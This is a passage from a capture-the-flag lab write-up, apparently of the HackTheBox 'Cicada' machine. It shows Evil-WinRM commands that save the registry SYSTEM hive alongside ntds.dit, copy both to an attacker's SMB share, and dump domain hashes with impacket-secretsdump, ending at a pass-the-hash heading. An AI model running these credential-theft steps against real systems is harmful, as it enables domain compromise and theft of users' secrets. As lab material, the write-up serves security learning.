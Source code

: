 Now it works like magic 🤣.

Let also access `system` file 🔻

```powershell
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Videos> reg save hklm\system c:\temp\system
The operation completed successfully.

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Videos> ls C:\Temp


    Directory: C:\Temp


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/10/2024   5:25 AM       16777216 ntds.dit
-a----        10/10/2024   5:28 AM       18518016 system
```

Lets access these files now, But how ? with SMB server like this 🔻

**Attacker Machine** 🔻
```bash
┌──(kali🔥kali)-[~/Downloads/HTB/Cicada]
└─$ impacket-smbserver share . -smb2support -username emily.oscars -password '<PASSWORD>'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.35,52576)
```

**Victim Machine** 🔻
```powershell
*Evil-WinRM* PS C:\TEMp> net use m: \\10.10.16.32\share /user:emily.oscars 'Q!3@Lp#M6b*7t*Vt'
The command completed successfully.

*Evil-WinRM* PS C:\TEMp> copy system m:\
*Evil-WinRM* PS C:\TEMp> copy ntds.dit m:\ntds
```

As I got these 2 files ntds.dit and system file on my attacker machine so lets dump the hashes with <mark style="background: #BBFABBA6;">secretsdump</mark> tool from impacket.

```bash
impacket-secretsdump -system system -ntds ntds.dit Local
```
![](Pasted%20image%2020241010110505.png)
_Secretsdump Tool from impacket module_

### Pass The Hash (PtH)🔻
